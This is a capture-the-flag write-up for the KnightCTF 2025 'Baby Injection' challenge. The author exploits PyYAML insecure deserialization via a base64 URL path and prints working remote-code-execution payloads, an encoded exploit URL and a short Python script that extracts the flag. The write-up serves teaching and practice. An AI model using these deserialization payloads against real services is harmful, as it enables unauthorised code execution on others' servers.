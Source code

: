 # Baby Injection

### Challenge Description

![description](/images/KnightCTF-2025/Baby-Injection/challenge_presentation.png)

### Initial Analysis

The site appears as follows:

![site](/images/KnightCTF-2025/Baby-Injection/site_presentation.png)

The first thing that immediately stands out is the site's URL:

```
http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=
```


In fact, that looks like a base64 encoding. Let's try to decode it:

```bash
 echo "eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=" | base64 -d
```

Decoding it, I got the following:

```yml
yaml: Its yaml bro, hack me if you can!!!
```

So, the decoded base64 seems to be reflected on the page, as we can see from the previous screenshot. It seems that since it mentions YAML, this could be a case of YAML insecure deserialization. In fact, looking at the request header, we can tell that everything is being executed with Python. Since Python has a library called PyYAML, we can exploit the deserialization process to achieve Remote Code Execution (RCE). 

### Exploit
I personally used this payload:

```yml
yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]
```

But many other payloads could have been used, such as:

```yml
yaml: !!python/object/apply:subprocess.getoutput ["ls -al"]
```
Other payloads can be found on [PayloadsAllTheThings](). So, I simply encoded it in base64:

```bash
echo "yaml: python/object/apply:subprocess.getoutput ['ls -al']" | base64
```

And that's how I formed the URL for injecting the "ls -al" command:

```
http://172.105.121.246:5990/eWFtbDogcHl0aG9uL29iamVjdC9hcHBseTpzdWJwcm9jZXNzLmdldG91dHB1dCBbJ2xzIC1hbCdd
```

By opening the URL, the command was executed on the server, listing the directories, and in doing so, I found the flag:

![flag](/images/KnightCTF-2025/Baby-Injection/manual_flag.png)

### Automated Exploit

I also created an automated Python exploit for extracting the flag:

```python
import requests
import base64
import re

url = "http://172.105.121.246:5990/"
payload = '''yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]'''
print("\nFLAG: " + re.search(r'KCTF{[a-f0-9]+}', requests.get(url + base64.b64encode(payload.encode('utf-8')).decode('utf-8')).text).group(0))
```

### Flag

```
KCTF{d38787fb0741bd0efdad8ed01f037740}
```
